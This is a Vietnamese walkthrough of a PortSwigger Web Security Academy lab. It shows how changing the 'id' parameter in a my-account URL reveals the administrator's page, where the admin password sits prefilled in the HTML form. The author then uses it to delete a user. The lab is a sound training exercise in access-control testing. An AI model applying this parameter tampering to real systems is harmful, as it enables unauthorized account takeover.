




# Lab: User ID controlled by request parameter with password disclosure

## Question

This lab has user account page that contains the current user's existing password, prefilled in a masked input.

To solve the lab, retrieve the administrator's password, then use it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

# Answer

Đăng nhập bằng tài khoản wiener, ta có trang người dùng:



URL:

```url
https://0ab500c904d021a9810025a7003a0065.web-security-academy.net/my-account?id=wiener
```

Thử đổi phần tham số id wiener thành administrator:

Nice, chúng ta nhận được trang quản trị viên:



URL:

```url
https://0ab500c904d021a9810025a7003a0065.web-security-academy.net/my-account?id=administrator
```

Tuy nhiên mật khẩu đang bị ẩn, để lấy được mật khẩu, ta kiểm tra form:

```html
<form class="login-form" action="/my-account/change-password" method="POST">
    <br/>
    <label>Password</label>
    <input required type="hidden" name="csrf" value="5jpHJAdoCJ2Vy6A1N6v0JpvbaEZHdhDM">
    <input required type=password name=password value='zemwxgvgkt76949q3biw'/>
    <button class='button' type='submit'> Update password </button>
</form>
```

Chúng ta nhận được mật khẩu admin là: `zemwxgvgkt76949q3biw`

Giờ tiến hành đăng nhập bằng mật khẩu đó:



Truy cập `Admin panel` và xóa carlos



Done~
